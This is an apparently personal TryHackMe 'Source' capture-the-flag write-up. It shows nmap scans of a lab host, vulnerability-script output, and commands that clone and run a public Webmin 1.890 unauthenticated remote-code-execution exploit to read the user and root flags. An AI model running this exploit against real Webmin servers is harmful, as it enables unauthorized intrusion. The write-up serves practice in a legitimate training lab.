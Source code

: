 ```yaml
---
title: TryHackMe Source -- Writeup
date: 2022-03-04
categories: [TryHackMe, Medium]
tags: [MiniServ, mis-config, linux]     # TAG names should always be lowercase
---
```


```bash
export ip=10.10.98.110
nmap -$ip
Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-03 11:23 BST
Nmap scan report for ip-10-10-98-110.eu-west-1.compute.internal (10.10.98.110)
Host is up (0.0015s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
10000/tcp open  snet-sensor-mgmt
MAC Address: 02:09:71:A4:70:2F (Unknown)

```

ssh most probably useless port to focus on. moving to 10000

```bash
nmap -sCV 10.10.98.110 --script=vuln -p 10000

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-03 11:16 BST
Nmap scan report for ip-10-10-98-110.eu-west-1.compute.internal (10.10.98.110)
Host is up (0.00024s latency).

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-litespeed-sourcecode-download:
| Litespeed Web Server Source Code Disclosure (CVE-2010-2333)
| /index.php source code:
| <h1>Error - Document follows</h1>
|_<p>This web server is running in SSL mode. Try the URL <a href='https://ip-10-10-98-110.eu-west-1.compute.internal:10000/'>https://ip-10-10-98-110.eu-west-1.compute.internal:10000/</a> instead.<br></p>
|_http-majordomo2-dir-traversal: ERROR: Script execution failed (use -d to debug)
| http-phpmyadmin-dir-traversal:
|   VULNERABLE:
|   phpMyAdmin grab_globals.lib.php subform Parameter Traversal Local File Inclusion
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2005-3299
|       PHP file inclusion vulnerability in grab_globals.lib.php in phpMyAdmin 2.6.4 and 2.6.4-pl1 allows remote attackers to include local files via the $__redirect parameter, possibly involving the subform array.
|
|     Disclosure date: 2005-10-nil
|     Extra information:
|       ../../../../../etc/passwd :
|   <h1>Error - Document follows</h1>
|   <p>This web server is running in SSL mode. Try the URL <a href='https://ip-10-10-98-110.eu-west-1.compute.internal:10000/'>https://ip-10-10-98-110.eu-west-1.compute.internal:10000/</a> instead.<br></p>
|
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-3299
|_      http://www.exploit-db.com/exploits/1244/
|_http-server-header: MiniServ/1.890
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
MAC Address: 02:09:71:A4:70:2F (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.03 seconds


```

vuln to and exploitable CVE-2005-3299 (nice)

```bash
searchsploit CVE-2005-3299
```

no result form searchsploit :(

phpMyAdmin grab_globals.lib.php subform Parameter Traversal Local File Inclusion

fire up msfconsole, (the vuln is old i was confidence it exist in msfconsole )

```bash
msfconsole

```

### links

https://www.exploit-db.com/exploits/1244 perl exploit
https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE

after 1 hour of following the rabbit hole i fininally snap it out. and wake my
ass up.

search google if there's any know vulnerability to the version number
`MiniServ 1.890 ` Lmao the first link give me the exploit

```bash
git clone https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE exploit
cd exploit
python webmin-1.890_exploit.py $ip $port "cat /home/dark/user.txt"
&&
python webmin-1.890_exploit.py $ip $port "cat /root/dark/root.txt"
```

Thanks for reading. I hope this helps :)

